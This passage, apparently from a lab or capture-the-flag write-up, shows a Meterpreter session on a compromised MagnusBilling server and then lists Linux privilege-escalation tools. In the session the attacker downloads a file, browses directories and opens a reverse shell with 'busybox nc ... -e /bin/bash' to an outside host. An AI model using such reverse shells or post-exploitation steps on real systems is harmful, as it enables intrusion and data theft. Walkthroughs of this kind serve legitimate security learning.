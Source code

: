 ```
100700/rwx------  6685  fil   2024-02-27 14:44:28 -0500  GoogleAuthenticator.php

meterpreter > meterpreter > download GoogleAuthenticator.php
[*] Downloading: GoogleAuthenticator.php -> /home/neo/GoogleAuthenticator.php
[*] Downloaded 6.53 KiB of 6.53 KiB (100.0%): GoogleAuthenticator.php -> /home/neo/GoogleAuthenticator.php
[*] Completed  : GoogleAuthenticator.php -> /home/neo/GoogleAuthenticator.php
meterpreter > ls
Listing: /var/www/html/mbilling/lib/GoogleAuthenticator
=======================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100700/rwx------  6685  fil   2024-02-27 14:44:28 -0500  GoogleAuthenticator.php

meterpreter > cd ..
meterpreter > ls
Listing: /var/www/html/mbilling/lib
===================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  GoogleAuthenticator
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  PlacetoPay
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  anet
100700/rwx------  64    fil   2024-02-27 14:44:28 -0500  composer.json
100700/rwx------  2459  fil   2024-02-27 14:44:28 -0500  composer.lock
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  gerencianet
040755/rwxr-xr-x  4096  dir   2025-04-18 13:27:23 -0400  icepay
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  mercadopago
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  stripe

meterpreter > shell
Process 2078 created.
Channel 2 created.
id
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
busybox nc 10.23.89.97 4444 -e /bin/bash
ls

```

## Privilege Escalation

### tools writups

### 🐧 **Linux Privilege Escalation Tools**

1. [**LinPEAS**](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) – Bash script for Linux privilege escalation enumeration.
2. [**Linux Exploit Suggester 2**](https://github.com/jondonas/linux-exploit-suggester-2) – Bash script that suggests exploits based on kernel version.
3. [**LES - Linux Exploit Suggester**](https://github.com/mzet-/linux-exploit-suggester) – Older but still useful version written in Perl.
4. [**BeRoot (Linux)**](https://github.com/AlessandroZ/BeRoot) – Linux local privilege escalation checks in Python.
5. [**LinEnum**](https://github.com/rebootuser/LinEnum) – Bash script for enumerating privilege escalation vectors.
6. [**GTFOBins**](https://gtfobins.github.io/) – Not a tool, but a searchable database of Unix binaries that can be exploited for privilege escalation.

---